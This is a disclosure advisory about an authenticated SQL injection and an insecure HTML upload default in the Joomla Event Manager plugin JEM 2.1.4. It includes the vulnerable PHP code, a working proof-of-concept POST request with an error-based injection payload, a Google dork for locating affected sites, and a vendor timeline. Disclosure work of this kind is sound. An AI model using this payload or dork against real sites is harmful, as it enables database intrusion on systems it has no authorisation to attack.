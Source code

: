 ```yaml
---
title:  "Multiple vulnerabilities in Joomla Event Manager 2.1.4"
date:   2017-08-10 20:00:00
excerpt: "A couple of security issues in Joomla Event Manager plugin, JEM 2.1.4."
---
```


I identified some vulnerabilities and insecure settings in [Joomla Event Manager plugin, JEM 2.1.4](https://www.joomlaeventmanager.net/download?download=50:jem-2-1-4-stable){:target="_blank"}. A malicious user could use these issues to access back-end database data and attack application clients. Attacker must have valid credentials to exploit these issues.

Some websites which use this Joomla plugin can be found using the Google dork: `inurl:option=com_jem`

## SQL Injection

Authenticated user can execute arbitrary SQL queries via SQL injection in the functionality that allows to publish/unpublish an event. Vulnerable resource is *index.php?option=com_jem&view=myevents* and the injection point is *cid* parameter.

```php
// sites/models/myevents.php
function publish($cid = array(), $publish = 1)
{
    if (is_array($cid) && count($cid)) {
        $cids = implode(',', $cid);

	$query = 'UPDATE #__jem_events'
               . ' SET published = '. (int) $publish
               . ' WHERE id IN ('. $cids .')'
               . ' AND (checked_out = 0 OR (checked_out = ' .$userid. '))';

        $this->_db->setQuery($query);
    }
}
```

POC
```
POST /joomla3.4.3/index.php?option=com_jem&view=myevents&Itemid=151 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0
Cookie: 55cfbe406ffe44b0159d9a943820d207=gauuoq0rqlakkltqj4dd1mpd76; jpanesliders_stat-pane=0; jpanesliders_event-sliders-10=2; d6300469df4ad94ccc019d02bc74f647=4339lu3g2tn4lhg2lvgd8ft263
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 352

filter=1&filter_search=&limit=10&cid%5B%5D=1,2)%20AND%20(SELECT%206959%20FROM(SELECT%20COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.TABLES%20GROUP%20BY%20x)a)%20AND%20(1577=1577&filter_order=a.dates&filter_order_Dir=&enableemailaddress=0&boxchecked=1&task=myevents.unpublish&option=com_jem&5c597c6e06b1d6627024f147b562ecaf=1
```

## Insecure File Upload

Default JEM settings allow to upload HTML/HTM files as event's attachment. An authenticated attacker could upload malicious HTML/HTM files with malicious code (e.g. Javascript). These attachments could be reachable on *<<website>>/media/com_jem/attachments/event/event[id]/* or downloaded and executed locally by the victim's browser.

Attachments process is handled by */site/classes/attachments.class.php* file.

File types allowed by default are in the */admin/sql/install.mysql.utf.sql* file.

## References

- [ExploitDB](www.exploit-db.com/exploits/37767/){:target="_blank"}

## Timeline

* 2015-08-01: Vendor notification.
* 2015-08-12: Vendor fixes the issues in the development branch.
	
The author is not responsible for the misuse of the information provided in this advisory.